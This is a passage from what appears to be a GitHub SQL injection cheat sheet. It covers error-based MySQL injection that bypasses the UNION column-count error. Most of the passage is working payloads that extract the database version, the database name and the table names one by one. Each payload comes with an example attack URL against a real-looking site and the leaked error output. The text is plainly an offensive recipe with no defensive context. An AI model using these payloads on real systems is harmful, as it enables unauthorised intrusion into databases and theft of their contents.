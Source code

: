 ## 

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL-Bypass-Error/README.md#bypassing-error-message-the-used-select-statements-have-a-different-number-of-columns-first-method)

Sometimes when you try to find which column is vulnerable via UNION based queries you will face this error:

`The used SELECT statements have a different number of columns`

Try the following payload to bypass the error message:

**Retrieve database version:**  
`+OR+1+GROUP+BY+CONCAT_WS(0x3a,VERSION(),FLOOR(RAND(0)*2))+HAVING+MIN(0)+OR+1--+-`

Example: `http://domain.com.br/index.php?id=1'+OR+1+GROUP+BY+CONCAT_WS(0x3a,VERSION(),FLOOR(RAND(0)*2))+HAVING+MIN(0)+OR+1--+-`  
Error Output includes the database version:

> Duplicate entry '**5.7.29**-log:1' for key ''

**Retrieve database name:**  
`+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(DATABASE()+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=DATABASE()+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)-- -`

Example: `http://domain.com.br/index.php?id=1'+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(DATABASE()+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=DATABASE()+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)-- -`

Error Output includes the database name:

> Duplicate entry '**litoflex**~1' for key ''

**Retrieve tables:**

First we convert the database name to 0xHEX: **litoflex** -> **0x6c69746f666c6578**

Given query will output the first table of the database:  
`+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(table_name+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=0x6c69746f666c6578+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)-- -`

Error output shows the first table name:

> Duplicate entry '**username**~1' for key ''

Given query will output the second table of the database:  
`+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(table_name+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=0x6c69746f666c6578+LIMIT+1,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)-- -`

Error output shows the first table name:

> Duplicate entry '**password**~1' for key ''

Given query will output the third table of the database:  
`+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(table_name+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=0x6c69746f666c6578+LIMIT+2,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)-- -`
